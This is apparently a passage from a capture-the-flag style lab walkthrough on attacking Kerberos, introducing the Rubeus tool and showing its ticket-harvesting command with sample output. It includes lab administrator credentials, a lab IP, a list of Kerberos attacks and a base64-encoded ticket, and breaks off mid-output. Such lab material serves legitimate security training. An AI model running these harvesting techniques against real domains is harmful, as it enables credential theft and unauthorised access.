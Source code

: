 Username: Administrator
Password: P@$$W0rd
Domain: controller.local

Your Machine IP is 10.10.197.112

Rubeus is a powerful tool for attacking Kerberos. Rubeus is an adaptation of the kekeo tool and developed by HarmJ0y the very well known active directory guru.

Rubeus has a wide variety of attacks and features that allow it to be a very versatile tool for attacking Kerberos. Just some of the many tools and attacks include overpass the hash, ticket requests and renewals, ticket management, ticket extraction, harvesting, pass the ticket, AS-REP Roasting, and Kerberoasting.

The tool has way too many attacks and features for me to cover all of them so I'll be covering only the ones I think are most crucial to understand how to attack Kerberos however I encourage you to research and learn more about Rubeus and its whole host of attacks and features here - https://github.com/GhostPack/Rubeus

Rubeus is already compiled and on the target machine.

**Harvesting Tickets w/ Rubeus -**

Harvesting gathers tickets that are being transferred to the KDC and saves them for use in other attacks such as the pass the ticket attack.

1. `cd Downloads` - navigate to the directory Rubeus is in
2. `Rubeus.exe harvest /interval:30` - This command tells Rubeus to harvest for TGTs every 30 seconds

![](https://i.imgur.com/VCeyyn9.png)

```
PS C:\Users\Administrator\Downloads> . .\Rubeus.exe harvest /interval:30

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: TGT Harvesting (with auto-renewal)
[*] Monitoring every 30 seconds for new TGTs
[*] Displaying the working TGT cache every 30 seconds


[*] Refreshing TGT ticket cache (4/24/2021 1:01:07 AM)

  User                  :  CONTROLLER-1$@CONTROLLER.LOCAL
  StartTime             :  4/24/2021 12:47:57 AM
  EndTime               :  4/24/2021 10:47:57 AM
  RenewTill             :  5/1/2021 12:47:57 AM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  Base64EncodedTicket   :

    doIFhDCCBYCgAwIBBaEDAgEWooIEeDCCBHRhggRwMIIEbKADAgEFoRIbEENPTlRST0xMRVIuTE9DQUyiJTAjoAMCAQKhHDAaGwZr
    cmJ0Z3QbEENPTlRST0xMRVIuTE9DQUyjggQoMIIEJKADAgESoQMCAQKiggQWBIIEEkRW4Bro9ZWCH/x7poYt3i1d9i0bKHNhOfn2
    Mtj+Pc7C2SrcSUnWrUvzexoPhUzzXt+1d+AYCB9oog+PeCGabr5vxP1I6usfbrMerxMPiNGzyL8U7BCA455xYzTQkaGaH6x1k9px
    3Dd0R3bmfC8TMgz562sVH1CFqtwn7y8lT9OB+iLW4G9cBfmeEc84N5P5Ec2jmp4ZoisMeFZo/wOXyXh2lTNIOcuk6oty5qwyp9Gx
    Ly1OqolFMvdSqMmUobDhAJZYbQWFjbbzGv+HeNUTL7r6DWRynnFmYVrYafvnPQfRCFem99j4192zHkiA3xSgsduu/gisiKzfoA7L
```
